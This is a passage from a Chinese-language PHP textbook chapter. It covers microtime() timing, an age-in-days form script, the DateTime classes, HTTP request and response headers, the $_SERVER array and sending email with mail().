本章中到目前为止你所见的日期和时间函数使用整数时间戳——即表示整秒数的时间戳。大多数情况下这已足够。如果你需要额外的精度，请使用 PHP 的 microtime() 函数。与 time() 类似，microtime() 返回表示当前时间的时间戳。但是，microtime() 返回一个额外的微秒部分，允许你更精确地确定当前时间：

```php
// Displays, for example, "0.45968200 1230613358"
echo microtime();
```

正如你所见，microtime() 返回一个由空格分隔的两个数字组成的字符串。第一个数字是微秒部分，表示为秒的分数；第二个数字是秒的整数——即标准整数时间戳。因此，前面代码片段中显示的示例输出表示 1970 年 1 月 1 日午夜（UTC）之后的 1,230,613,358.459682 秒。

如果你愿意，可以通过传入 true 参数，让 microtime() 返回浮点秒数，而不是由两个数字组成的字符串：

```php
// Displays, for example, "1230613358.46"
echo microtime( true );
```


请注意，使用 echo() 只能将秒数显示为两位小数。要更精确地查看浮点数，可以使用 printf()：

```
// Displays, for example, "1230613358.459682"
printf ( "%0.6f", microtime( true ) );
```

微秒的一个常见用例是在为代码基准测试以查找速度瓶颈时。通过在执行操作前后读取 microtime() 的值，然后将一个值减去另一个值，你可以找出操作执行所需的时间。示例如下：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Timing script execution</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>Timing script execution</h1>
<?php
// Start timing
$startTime = microtime( true );
// Perform the operation
for ( $i=0; $i<10; $i++ ) {
echo "<p>Hello, world!</p>";
}
// Stop timing
$endTime = microtime( true );
$elapsedTime = $endTime - $startTime;
printf ( "<p>The operation took %0.6f seconds to execute.</p>", $elapsedTime );
?>
</body>
</html>
```

你可以在图 16-1 中看到此脚本的示例输出。


图 16-1

## 尝试一下：以天为单位计算你的年龄

你可以使用新掌握的 PHP 日期处理函数来编写一个脚本，用于计算用户的年龄（以天为单位）。该脚本会显示一个表单，提示用户输入出生日期，然后计算该日期与当前日期之间的差值（以天为单位）。

将以下脚本保存为 days_old.php，放在你的文档根目录文件夹中。因为该脚本使用了 HTML_QuickForm 和 HTML_QuickForm_Renderer_Tableless PEAR 包，所以请确保也安装这些包。有关安装这些包的详细信息，请参阅上一章。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>How many days old are you?</title>
<link rel="stylesheet" type="text/css" href="common.css" />
<style type="text/css">
.error { background: #d33; color: white; padding: 0.2em; margin: 0.2em 0 0.2em 0; font-size: 0.9em; }
fieldset { border: none; }
ol {list-style-type: none; }
input, select, textarea { float: none; margin: 1em 0 0 0; width: auto; }
div.element { float: right; width: 57%; }
div.element label { display: inline; float: none; }
select { margin-right: 0.5em; }
span.required { display: none; }
</style>
</head>
<body>
<h1>How many days old are you?</h1>
<?php
require_once ( "HTML/QuickForm.php" );
require_once ( "HTML/QuickForm/Renderer/Tableless.php" );
$form = new HTML_QuickForm( "form", "get", "days_old.php", "",
array( "style" => "width: 30em;" ), true );
$form->removeAttribute( "name" );
$form->setRequiredNote( "" );
$options = array( format => "MdY", "minYear" => 1902, "maxYear" =>
date( "Y" ) );
$form->addElement( "date", "dateOfBirth", "Your date of birth", $options );
$form->addElement( "submit", "calculateButton", "Calculate" );
$form->addGroupRule( "dateOfBirth", "Please enter your date of birth",
"required" );
$form->addRule( "dateOfBirth", "Please enter a valid date", "callback",
"checkDateOfBirth" );
if ( $form->isSubmitted() && $form->validate() ) {
$form->process( "calculateDays" );
}
$renderer = new HTML_QuickForm_Renderer_Tableless();
$form->accept( $renderer );
echo $renderer->toHtml();

function checkDateOfBirth( $value ) {
return checkdate( $value["M"], $value["d"], $value["Y"] );
}

function calculateDays( $values ) {
$currentDate = mktime();
$dateOfBirth = mktime( 0, 0, 0, $values["dateOfBirth"]["M"],
$values["dateOfBirth"]["d"], $values["dateOfBirth"]["Y"] );
$secondsOld = $currentDate - $dateOfBirth;
$daysOld = (int) ( $secondsOld / 60 / 60 / 24 );
echo "<p>You were born on " . date( "l, F jS, Y", $dateOfBirth ) .".</p>";
echo "<p>You are " . number_format( $daysOld ) . " day" .
( $daysOld != 1 ?
"s" : "" ) . " old!</p>";
}
?>
</body>
</html>
```

现在在 Web 浏览器中访问其 URL 来运行 days_old.php 脚本。你应该会看到一个表单，其中包含三个下拉菜单，用于选择出生日期的月、日和年。输入出生日期，然后单击“计算”以显示以天为单位的年龄。图 16-2 展示了脚本的运行效果。


图 16-2

## 工作原理

本脚本演示了如何使用各种 PHP 日期函数，以及 HTML_QuickForm PEAR 包的一些高级功能。首先，脚本输出 XHTML 页面头部，链接到公用样式表 common.css（来自第 2 章），并包含一些额外的 CSS 规则来设置表单样式。

PHP 代码首先包含两个 PEAR 包，然后创建一个新的 HTML_QuickForm 对象。该表单使用 HTTP get 方法，并将数据发送回同一脚本（days_old.php）。表单的 $trackSubmit 属性也设置为 true，以便脚本可以检测表单何时已被提交：

```
require_once( "HTML/QuickForm.php" );
require_once( "HTML/QuickForm/Renderer/Tableless.php" );
$form = new HTML_QuickForm( "form", "get", "days_old.php", "", array( "style" => "width: 30em;" ), true );
```

然后设置 $form 对象的几个其他属性。表单的 name 属性被移除，以使标记符合 XHTML 规范，并且“*表示必填字段”提示被禁用，因为该表单只有一个字段（字段标签旁边的星号被脚本顶部的 span.required CSS 规则隐藏了）：

```
$form->removeAttribute( "name" );
$form->setRequiredNote( "" );
```

接下来，将月、日和年的三个选择字段添加到表单中。即使使用 PHP 之类的脚本语言，生成此类字段也非常繁琐。幸运的是，HTML_QuickForm 包含一个日期元素类型，会自动为你生成这三个选择字段。

首先，脚本为日期字段创建一个选项数组。format 指定月、日和年各字段的格式，以及它们在表单中的顺序。在此例中，"MdY" 指定月份为三字母缩写，后跟带前导零的日，再后跟四位年份。第三个选择菜单中显示的年份范围由 minYear 和 maxYear 设置；在此例中，脚本将最低年份设置为 1902，将最高年份设置为当前年份：

```
$options = array( format => "MdY", "minYear" => 1902, "maxYear" => date("Y") );
```

你可以在 HTML_QuickForm 文档中找到 format 选项的完整格式字符列表：http://pear.php.net/package/HTML_QuickForm/docs/latest/HTML_QuickForm/HTML_QuickForm_date.html#methodHTML_QuickForm_date。

由于 32 位操作系统的限制，大多数当前机器上的时间戳处理通常仅限于 1901 年 12 月 13 日星期五 20:45:54 GMT 到 2038 年 1 月 19 日星期二 03:14:07 GMT 之间的日期和时间。

接下来只需添加 dateOfBirth 元素，以及“计算”按钮元素：

```
$form->addElement( "date", "dateOfBirth", "Your date of birth", $options );
$form->addElement( "submit", "calculateButton", "Calculate" );
```

dateOfBirth 字段使用两条规则进行验证。第一条是一条简单规则，用于检查月、日和年字段是否已填写。脚本没有使用常规的 addRule() 方法，而是使用了 addGroupRule()，用于检查 dateOfBirth 元素中的所有三个字段是否都包含数据。第二条规则检查由这三个字段指定的日期是否为有效日期。它通过使用回调函数（稍后描述）来实现此功能：

```
$form->addGroupRule( "dateOfBirth", "Please enter your date of birth", "required" );
$form->addRule( "dateOfBirth", "Please enter a valid date", "callback", "checkDateOfBirth" );
```

代码的下一部分检查表单是否已被提交。如果是，并且提供的表单数据有效，则通过调用 calculateDays() 函数来处理表单：

```
if ( $form->isSubmitted() && $form->validate() ) {
	$form->process( "calculateDays" );
}
```

无论表单是否被处理，现在都会使用 HTML_QuickForm_Renderer_Tableless 渲染器将其输出到浏览器：

```
$renderer = new HTML_QuickForm_Renderer_Tableless();
$form->accept( $renderer );
echo $renderer->toHtml();
```


接下来是 checkDateOfBirth()，这是一个回调函数，用于检查输入的日期是否有效。如你所料，这使用 PHP 的 checkdate() 函数来进行检查。因为被检查的元素包含多个字段值，HTML_QuickForm 提供了一个按字段名索引的关联数组，包含这些值。checkDateOfBirth() 提取这三个值并将它们传递给 checkdate() 进行检查，将 checkdate() 的返回值（true 或 false）返回给调用代码：

```php
function checkDateOfBirth( $value ) {
    return checkdate( $value["M"], $value["d"], $value["Y"] );
}
```

最后一个函数 calculateDays() 在处理表单时被调用。首先，它创建两个时间戳：$currentDate，用于存储当前日期和时间；以及 $dateOfBirth，用于存储输入的出生日期。这两个时间戳均使用 mktime() 创建。出生日期的月、日、年分量从存储在表单 dateOfBirth 字段中的三元素关联数组中提取：

```php
$currentDate = mktime();
$dateOfBirth = mktime( 0, 0, 0, $values["dateOfBirth"]["M"],
    $values["dateOfBirth"]["d"], $values["dateOfBirth"]["Y"] );
```

既然两个日期都存储在时间戳中，计算两者之间的秒数，进而计算天数就很容易了：

```php
$secondsOld = $currentDate - $dateOfBirth;
$daysOld = (int) ( $secondsOld / 60 / 60 / 24 );
```

最后，该函数向访问者显示输出。首先，它调用 PHP 的 date() 函数以友好的格式显示访问者的出生日期，然后告诉访问者他多少天大了：

```php
echo "<p>You were born on " . date( "l, F jS, Y", $dateOfBirth ) . ".</p>";
echo "<p>You are " . number_format( $daysOld ) . " day" . ( $daysOld != 1 ? "s" : "" ) . " old!</p>";
```

通过将秒数差除以（60 * 60 * 24）来计算天数差并不完全准确，因为一天并不总是 24 小时长（至少在使用夏令时的时区中）。不过，对于此脚本的目的来说，这已经足够了。

## DateTime：PHP 日期/时间处理的未来

从版本 5.2 开始，PHP 引入了几个有用的日期和时间处理类：

- DateTime 用于存储和操作日期和时间
- DateTimeZone 用于表示时区

在撰写本文时，这些类相对实验性且功能不完善；不过，它们已经很有用。与传统的 PHP 日期和时间函数相比，它们具有许多优势，包括：

- 对时区的优雅处理
- 能够存储和处理 1901 年之前和 2038 年之后的日期
- 更容易的日期操作

例如，以下代码创建一个表示洛杉矶时区 1948 年 2 月 13 日的新 DateTime 对象，然后从日期中减去三个月，并显示结果：

```php
$dtz = new DateTimeZone( "America/Los_Angeles" );
$dt = new DateTime( "13-Feb-1948", $dtz );
$dt->modify( "-3 months" );

// Displays "Thu, 13 Nov 1947 00:00:00 -0800"
echo $dt->format( DateTime::RFC2822 );
```

首先，代码创建一个表示洛杉矶时区的新 DateTimeZone 对象，然后创建一个表示该时区 1948 年 2 月 13 日午夜的新 DateTime 对象。接下来，代码调用 DateTime 对象的 modify() 方法。这个非常实用的方法接受一个与传递给 strtotime() 相同格式的修改字符串，并相应地调整日期和时间。

最后，代码调用 DateTime 对象的 format() 方法将日期作为字符串返回。format() 接受与 date() 函数相同类型的格式字符串。在此示例中，使用类常量 DateTime::RFC2822 以 RFC2822 格式格式化日期，即 "D, d M Y H:i:s O"。注意，显示的日期字符串中的时区偏移量比格林威治标准时间晚八小时——即洛杉矶时间。

DateTime 类目前缺少一些有用的功能；然而，如果你偏好面向对象的方法，或需要处理通常 1901–2038 年范围之外的日期，它绝对值得一看。有关 DateTime 和相关类的更多信息，请参阅 http://www.php.net/manual/en/book.datetime.php。

## 使用 HTTP

Web 服务器和浏览器使用 HTTP（超文本传输协议）相互通信，这是一套规范如何从 Web 服务器请求和检索数据的规则。

大多数情况下，您无需深入了解 HTTP 的工作原理，因为每当访问者访问您的网页或 PHP 脚本时，HTTP 通信都会自动发生。不过，偶尔了解 HTTP 中涉及的一些过程可能很有用，因为 PHP 让您对这些过程有一定控制。例如，如果您了解 HTTP 响应头的工作原理，可以使用 PHP 脚本创建自定义响应头，从而让脚本显示图像或将浏览器重定向到新页面，等等。

在接下来的章节中，您将探索 Web 浏览器如何向 Web 服务器发出 HTTP 请求；服务器随后如何将 HTTP 响应发回浏览器；以及您如何影响服务器与浏览器之间的 HTTP 通信。

### 了解 HTTP 请求

每当浏览器想要显示存储在 Web 服务器上的网页或其他资源（如图像文件）时，浏览器首先连接到服务器（通常通过端口 80，即 HTTP 端口），然后向服务器发送各种信息，称为 *请求消息*。请求消息按顺序由以下部分组成：

- 请求行：告诉 Web 服务器浏览器要检索哪个资源（URL）
- HTTP 头列表：这些可选的文本行允许浏览器向服务器发送额外信息，例如 Cookie 和浏览器可以接受的字符集
- 空行：请求行和任何头之后需要的空行
- 可选的消息体：例如，可能包含通过 POST 方法发送的表单数据

消息中的每一行必须以回车符后跟换行符结束。

请求行是请求中最重要的部分，因为它告诉服务器将哪个资源发送回浏览器。以下是典型的请求行：

```
GET /about/index.php HTTP/1.1
```

请求行由三部分组成：请求方法（此处为 `GET`）、要检索的 URL（`/about/index.php`）以及要使用的 HTTP 版本（大多数现代浏览器使用 `HTTP/1.1`）。其他请求方法包括 `POST`（用于发送大量表单数据）和 `HEAD`（类似于 `GET`，但要求服务器仅返回响应头，而不是实际内容）。

可以从浏览器向服务器发送许多 HTTP 请求头。以下是一些常见的请求头：

| 头部 | 描述 | 示例 |
| :--- | :--- | :--- |
| Accept | 浏览器接受的返回内容的 MIME 内容类型列表。 | Accept: text/html, application/xml |
| Accept-Charset | 浏览器接受的返回内容的字符集列表。 | Accept-Charset: ISO-8859-1, utf-8 |
| Accept-Encoding | 浏览器接受的返回内容的压缩方法列表。 | Accept-Encoding: gzip, deflate |
| Accept-Language | 浏览器接受的返回内容的语言列表。 | Accept-Language: en-gb, en |
| Cookie | 此服务器之前发送的 HTTP Cookie（有关 Cookie 的更多信息，请参见第 10 章）。 | Cookie: name=fred |
| Host | 这是唯一的强制性头，且仅在进行 HTTP/1.1 请求时才强制。由于大多数 Web 服务器应用程序可以在单台机器上为多个域提供网站服务，浏览器会发送 Host 头来告诉服务器它正在从哪个网站请求资源。 | Host: www.example.com |
| Referer | 当访问者单击链接以查看新页面时，大多数浏览器会在 Referer 头中发送包含链接的页面的 URL。Web 服务器通常会将 Referer URL 与请求的页面 URL 一起记录下来。这样，Webmaster 就可以查看服务器日志以了解访问者来自何处。 | Referer: www.example.com |
| User-Agent | 关于浏览器的信息，例如其类型和版本。（您在第 15 章中学习了如何访问这些信息。） | User-Agent: Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10.5; en-GB; rv:1.9.0.5) Gecko/2008120121 Firefox/3.0.5 |

因此，完整的浏览器请求（假设没有请求体）可能如下所示：

```
GET /about/index.php HTTP/1.1
Host: www.example.com
Accept: text/html, application/xml
Accept-Charset: ISO-8859-1,utf-8
Accept-Encoding: gzip,deflate
Accept-Language: en-gb,en
Cookie: name=fred
Referer: www.example.com
User-Agent: Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10.5; en-GB;
rv:1.9.0.5) Gecko/2008120121 Firefox/3.0.5
```

### 探索 HTTP 响应

当 Web 服务器收到来自浏览器的 HTTP 请求时，它会发送回一个 HTTP 响应。通常，这包括浏览器请求的内容以及一些关于内容的信息，但它也可能返回一个错误（例如，如果找不到内容）。


与请求类似，响应通常包含最多四个部分：

- 状态行：这会告诉 Web 浏览器请求的状态
- HTTP 头部列表：这些可选头部包含关于响应的额外信息，例如返回内容的类型和长度
- 空行：请求行和任何头部之后都需要此空行
- 可选的消息体：通常包含返回的内容，例如 Web 页面标记或编码的图像数据

HTTP 状态行由状态码和相应的原因短语（即状态码的纯英文版本）组成。常见状态码包括：

| 状态码 | 原因短语 | 描述 |
|---|---|---|
| 200 | 成功 | 浏览器的请求已成功。所请求的内容（如果有）将随即返回。 |
| 301 | 永久移动 | 所请求的资源现位于不同的 URL。新 URL 将在 Location 头中返回。浏览器今后应使用新 URL。 |
| 302 | 已找到 | 所请求的资源暂时位于不同的 URL。新 URL 将在 Location 头中返回。浏览器在未来的请求中应继续使用现有 URL。 |
| 400 | 错误请求 | 浏览器发送的请求无效（例如，其语法不正确）。 |
| 403 | 禁止访问 | 浏览器正尝试访问其无权访问的资源（例如，受密码保护的文件）。 |
| 404 | 未找到 | 服务器上找不到浏览器请求的资源。 |
| 500 | 内部服务器错误 | 服务器处理请求时出现问题。 |

许多响应头与其请求头对应项相似，甚至相同。以下是 Web 服务器发送的一些更常见的响应头：

| 头部 | 描述 | 示例 |
| :--- | :--- | :--- |
| Date | 响应的日期和时间。 | Date: Mon, 05 Jan 2009 10:07:20 GMT |
| Content-Length | 随后内容的长度（字节）。 | Content-Length: 8704 |
| Content-Type | 随后内容的 MIME 内容类型。 | Content-Type: text/html |
| Location | 备选 URL，即所请求的 URL 的替代。常与 301 和 302 状态码配合使用，将浏览器重定向到新 URL。 | Location: http://www.example.com/newpage.php |
| Server | 关于 Web 服务器的信息，例如其类型和版本。 | Server: Apache/1.3.34 (Debian) PHP/5.2.0-8+etch13 mod_perl/1.29 |
| Set-Cookie | 请求在浏览器中存储 HTTP cookie。 | Set-Cookie: name=Fred; expires=Mon, 05-Jan-2009 10:22:21 GMT; path=/; domain=.example.com |

以下是浏览器请求 HTML 页面后，来自 Web 服务器的示例响应：

```
HTTP/1.x 200 OK
Date: Mon, 05 Jan 2009 10:19:52 GMT
Server: Apache/2.0.59 (Unix) PHP/5.2.5 DAV/2
X-Powered-By: PHP/5.2.5
Content-Length: 395
Keep-Alive: timeout=15, max=96
Connection: Keep-Alive
Content-Type: text/html

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>About Us</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>About Us</h1>
<p>We specialize in widgets for all occasions.</p>
</body>
</html>
```

请注意，响应由状态行、随后的各种响应头、随后的空行，最后是所请求的内容（在此例中为一个网页）组成。

一旦浏览器收到网页，它通常会针对页面中引用的任何其他资源发起额外请求，例如本示例中的 common.css 样式表文件，或页面中嵌入的任何图像。因此，当访问者查看网页时，可能会发起多个 HTTP 请求和响应。

## 修改 HTTP 响应

由于 PHP 引擎与 Web 服务器交互，您的 PHP 脚本可以影响服务器发送的 HTTP 响应头。这非常有用。

要使 Web 服务器将自定义 HTTP 头作为其响应的一部分发送，请使用 PHP 的 header() 函数。这只需接受要输出的头行，然后将该行注入响应头中：

```
header("Server: Never you mind");
```

默认情况下，header() 会替换同名的任何 HTTP 头字段。在刚才所示的示例中，如果响应已包含 Server 头，则该头会被传入 header() 中的头所替换。但是，某些 HTTP 头字段可以在响应中出现多次。如果您希望多次包含同一头，请将 false 作为第二个参数传入 header()：

```
header( "Set-Cookie: name=Fred; expires=Mon, 05-Jan-2009 10:22:21 GMT; path=/; domain=.example.com" );
header( "Set-Cookie: age=33; expires=Mon, 05-Jan-2009 10:22:21 GMT; path=/; domain=.example.com", false );
```

（虽然您可以通过这种方式设置 cookie，但使用 PHP 的 setcookie() 函数更简单，如第 10 章所述。）

一般而言，当您将头行传递给 header() 时，PHP 会忠实地将头行原样注入响应中。但是，有两个特殊情况：

- 如果头字符串以 HTTP/ 开头，PHP 假定您要设置状态行，而不是添加或替换头行。这允许您设置自己的 HTTP 状态行：

```
// Nothing to see here, move along
header("HTTP/1.1 404 Not Found");
```

- 如果您传入 Location 头字符串，PHP 会自动发送 302 Found 状态行以及 Location 头：

```
// Redirect to the login page
header( "Location: http://www.example.com/login.php" );
```

- 这使得页面重定向变得容易（如您在第 9 章中所见）。如果您希望发送不同的状态行，只需同时指定状态行：

```
header("HTTP/1.1 301 Moved Permanently");
header( "Location: http://www.example.com/newpage.php" );
```

如果您的 PHP 脚本需要发送除 HTML 网页以外的任何内容，header() 非常有用。例如，假设 Web 服务器上有一个 report.pdf 文件，您希望将其发送到浏览器。您可以编写如下内容：

```
<?php
header( "Content-Type: application/pdf" );
readfile( "report.pdf" );
?>
```

第一行告诉 Web 浏览器预期是 PDF 文档，而非常规网页。第二行读取服务器硬盘上的 PDF 文件，并将其内容输出到 Web 浏览器，浏览器随后可以保存或显示该 PDF。

通常由浏览器决定是直接在浏览器中显示文件，还是提供保存到用户硬盘的选项。您可以使用 Content-Disposition: Attachment 头，建议浏览器保存文件而非显示，并且（可选地）为保存的文件建议文件名：

```
<?php
header( "Content-Type: application/pdf" );
header( 'Content-Disposition: attachment; filename="Latest Report.pdf"' );
readfile( "report.pdf" );
?>
```

顺便说一句，您需要确保在调用 header() 之前没有向浏览器发送任何内容。这包括在开头 <?php 标记之前的 HTML 标记，甚至空行。这是因为，一旦 PHP 收到向浏览器发送内容的请求，它就会先发送 HTTP 头（因为头部需要在响应开头发送）。因此，当执行您的 header() 调用时，内容已开始发送，为时已晚，无法再发送任何头部。（如果违反此规定，则您的头不会被发送，并且 PHP 会生成 Cannot modify header information - headers already sent 警告。）

## 从 Web 服务器获取信息

每次运行 PHP 脚本时，Web 服务器软件都会向 PHP 引擎提供大量有用信息。此类信息包括关于服务器本身的细节，以及正在执行的脚本的详细信息，以及本章前面讨论的许多 HTTP 请求头。

您可以在 PHP 脚本中通过 $_SERVER 超全局数组访问所有这些信息。例如，要显示访问者计算机（或代理服务器）的 IP 地址，您可以使用：

```
echo "Your IP address is: " . $_SERVER["REMOTE_ADDR"];
```

由于 Web 服务器种类繁多，可用信息很大程度上取决于您特定的服务器配置。话虽如此，通常有一个始终存在的核心值列表。以下是更常见且更有用的 $_SERVER 变量列表：


| 变量 | 描述 |
| :--- | :--- |
| `$_SERVER["DOCUMENT_ROOT"]` | 网站文档根文件夹的绝对路径（例如：/home/matt/mysite/htdocs） |
| `$_SERVER["HTTP_REFERER"]` | 浏览器在 Referer HTTP 头中发送的引荐 URL。（有关更多详细信息，请参阅本章中的“使用 HTTP”部分） |
| `$_SERVER["HTTP_USER_AGENT"]` | 访问者的浏览器信息，例如名称和版本。（访问此信息的更好方法是使用 PEAR Net_UserAgent_Detect 包，如第 15 章所述） |
| `$_SERVER["HTTPS"]` | 如果脚本通过 HTTPS 访问，则为 true；如果通过 HTTP 访问，则为 false |
| `$_SERVER["PATH_INFO"]` | 附加到 URL 的任何额外信息。例如，如果脚本通过 URL http://www.example.com/myscript.php/extra/info 访问，则 $_SERVER["PATH_INFO"] 包含 /extra/info。（并非所有服务器都支持） |
| `$_SERVER["PHP_SELF"]` | 当前运行脚本的 URL，相对于网站的文档根目录。例如：/about/index.php |
| `$_SERVER["QUERY_STRING"]` | 请求 URL 中的查询字符串（如果存在）（这是 URL 中“？”后面出现的字符串） |
| `$_SERVER["REMOTE_ADDR"]` | 访问者计算机的 IP 地址（如果访问者使用代理服务器，则为代理服务器） |
| `$_SERVER["REMOTE_HOST"]` | 访问者计算机的主机名（如果访问者使用代理服务器，则为代理服务器）。由于这涉及 DNS 查找，可能会对服务器性能产生影响，因此许多 Web 服务器应用程序默认禁用此选项。但是，您可以使用 gethostbyaddr() 从 IP 地址手动检索主机名，如下所示：echo gethostbyaddr( $_SERVER["REMOTE_ADDR"] ) |
| `$_SERVER["REQUEST_METHOD"]` | 用于访问脚本的请求方法（例如 GET、POST 或 HEAD） |
| `$_SERVER["REQUEST_URI"]` | 当前运行脚本的完整 URL，相对于网站的文档根目录，并包含任何查询字符串（例如：/about/index.php?page=3） |
| `$_SERVER["SCRIPT_FILENAME"]` | 运行脚本的绝对路径（例如：/home/matt/mysite/htdocs/myscript.php） |
| `$_SERVER["SCRIPT_NAME"]` | 当前运行脚本的 URL，相对于网站的文档根目录。例如：/about/index.php。请注意，这与 $_SERVER['PHP_SELF'] 微妙不同。$_SERVER["PHP_SELF"] 包含任何额外路径信息（存储在 $_SERVER["PATH_INFO"] 中），而 $_SERVER["SCRIPT_NAME"] 会丢弃此类信息 |

与所有外部输入一样，信任 $_SERVER 变量的内容是不明智的。访问者可以以某种方式操纵其中的大部分变量。请确保根据需要检查、过滤或编码这些值。

以下简单脚本将输出 $_SERVER 超级全局数组中的所有值：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Server and script details</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>Server and script details</h1>
<pre>
<?php print_r( $_SERVER ); ?>
</pre>
</body>
</html>
```

图 16-3 显示了在典型的 Apache Web 服务器上运行该脚本的输出。


图 16-3

## 发送电子邮件

许多 Web 应用程序都需要发送电子邮件。例如，联系表单脚本通常处理访问者提交的表单，并将表单信息电子邮件发送给 Webmaster。其他常见场景包括“告诉朋友”功能，以及会员注册和“忘记密码”功能，这些功能会向会员发送电子邮件信息。

PHP 包含用于创建和发送电子邮件的内置支持，这使得在 PHP 脚本中发送电子邮件变得非常容易。

要在 PHP 中发送电子邮件，请使用 mail() 函数。在 Linux 和 Mac OS X 等 Unix 服务器上，PHP 使用操作系统内置的邮件传输代理（MTA）来发送电子邮件。（常见的 MTA 包括 sendmail、postfix 和 exim。）在 Windows 等非 Unix 服务器上，PHP 直接与 SMTP 邮件服务器通信（可以在服务器上或另一台机器上）。

## 第三部分：在实践中使用 PHP

至少，mail() 需要三个参数：

- 包含收件人电子邮件地址的字符串（如果发送给多个收件人，则为用逗号分隔的电子邮件地址列表）
- 作为字符串的电子邮件主题行
- 作为字符串的邮件正文

如果邮件服务器接受了邮件进行投递，mail() 返回 true；如果出现问题，则返回 false。（请注意，即使邮件服务器接受了邮件进行投递，电子邮件仍然可能最终被退回。）

例如，以下代码将一封标题为“Hello”、正文为“Hi Jim, how are you？”的简短电子邮件发送到 jim@example.com：

```
mail( "jim@example.com", "Hello", "Hi Jim, how are you?" );
```

您还可以在收件人字符串中包含收件人的真实姓名，前提是之后跟上尖括号中的收件人电子邮件地址。例如：

```
mail( "Jim Smith <jim@example.com>", "Hello", "Hi Jim, how are you?" );
```

要发送多行消息，请传入包含换行符的字符串。示例如下：

```
$message = "Hi Jim,
How are you?
";
```

```
mail( "Jim Smith <jim@example.com>", "Hello", $message );
```

电子邮件正文中的文本行长度不应超过 70 个字符。为确保行长度正确，可以使用 PHP 的 wordwrap() 函数：

```
$message = wordwrap( $message, 70 );
```

## 指定发件人地址并添加标头

默认情况下，在 Linux 或 Mac OS X 等 Unix 服务器上运行时，mail() 通常以 Web 服务器的用户名（例如“www”或“www-data”）发送消息。（在 Windows 服务器上，您需要在 php.ini 配置文件中使用 sendmail_from 选项指定默认“from”地址。）如果要从不同的“from”地址发送电子邮件，可以在地址参数的第四个参数中指定该地址，如下所示：

```
mail( "Jim Smith <jim@example.com>", "Hello", $message, "From: Bob Jones
<bob@example.com>" );
```

此第四个参数允许您指定要包含在邮件消息中的其他标头。在此示例中，仅添加了一个标头——From: 标头——但您可以添加任意多个标头。只需确保每个标头之间都同时用回车符（\r）和换行符（\n）字符分隔；这是 Internet 电子邮件消息规范所要求的：

```
$extraHeaders = "From: Bob Jones <bob@example.com>\r\n" .
    "Cc: Anna James <anna@example.com>\r\n" .
    "X-Priority: 1 (Highest)\r\n" .
    "X-Mailer: Matt's PHP Script";
mail( "Jim Smith <jim@example.com>", "Hello", $message, $extraHeaders );
```

此代码设置四个标头：From:（消息发件人）、Cc:（额外的抄送收件人）、X-Priority:（表示消息重要性的 1 到 5 的值）和 X-Mailer:（指定发送消息的软件的标头）。

RFC 2822 定义了电子邮件消息的格式，包括消息中可使用的所有不同标头。您可以在以下网址阅读：http://www.faqs.org/rfcs/rfc2822。

X-Priority: 和 X-Mailer: 被称为实验性标头，并不是 RFC 2822 的正式部分（尽管它们的使用非常广泛）。

## 控制返回路径电子邮件地址

如果脚本在 Unix Web 服务器上运行，可以将其他命令行参数作为第五个参数传递给 MTA。通常，此方法用于添加 -f 命令行参数，以设置所谓的信封发件人或返回路径电子邮件地址：

```
mail( "Jim Smith <jim@example.com>", "Hello", $message, "From: Bob Jones <bob@example.com>", "-f bob@example.com" );
```

大多数电子邮件包含两个“from”标头：From: 标头和 Return-Path: 标头。From: 地址通常是在邮件程序中查看电子邮件时显示的地址，而 Return-Path: 地址用于确定电子邮件的“真实”发件人，以便发送退回邮件、确定电子邮件是否可能是垃圾邮件等。

通常，这两个标头包含相同的电子邮件地址。但是，通过 Web 脚本发送邮件时，Return-Path: 标头通常设置为 Web 服务器的用户名（例如 www@example.com）。如果您想接收退回邮件（以便确定您尝试联系的电子邮件地址是否不再存在），并且无法访问服务器上的“www”邮箱，这可能会成为问题。通过使用刚刚所示的其他 -f 参数，您可以将 Return-Path: 地址设置为与 From: 地址相同（或者您可以将其设置为任何可以接收电子邮件的电子邮件地址）。

使用 -f 有一个注意事项。如果 Web 服务器用户未被 MTA 信任，MTA 会向电子邮件消息添加类似以下的警告标头：

```
X-Authentication-Warning: www.example.com: user set sender to bob@example.com using -f
```

虽然这通常不会显示给收件人，但往往会导致消息被标记为垃圾邮件或以其他方式被视为可疑电子邮件。要让 MTA 信任 Web 服务器用户，通常需要将 Web 服务器用户名添加到服务器上的 /etc/mail/trusted-users 文件中。（如果您无法访问此文件，请向 Web 托管提供商寻求帮助。）


如果你运行在 Windows 服务器上呢？那样你就走运了。因为 Windows 上的 PHP 不使用 MTA，而是直接与 SMTP 服务器通信，你可以通过 php.ini 中名为 sendmail_from 的设置轻松在 Windows 上设置回送路径：

```php
ini_set( "sendmail_from", "bob@example.com" );
mail( "Jim Smith <jim@example.com>", "Hello", $message, "From: Bob Jones <bob@example.com>" );
```

## 发送 HTML 电子邮件

你的消息正文不必是纯文本；如果愿意，可以将 HTML 网页作为电子邮件发送。这让你能够更吸引人地格式化消息。但是，你需要牢记，并非所有电子邮件应用程序都以相同的方式（甚至根本不）显示 HTML 电子邮件，因此在发送前最好先在各种电子邮件应用程序中测试你的 HTML 电子邮件——尤其是当你将电子邮件发送到大型邮件列表时——并且你还应该随 HTML 版本一起包含消息的纯文本版本（稍后你将了解如何操作）。

要发送 HTML 电子邮件消息，你需要做两件事：

- 1. 为你的消息正文创建 HTML 标记。
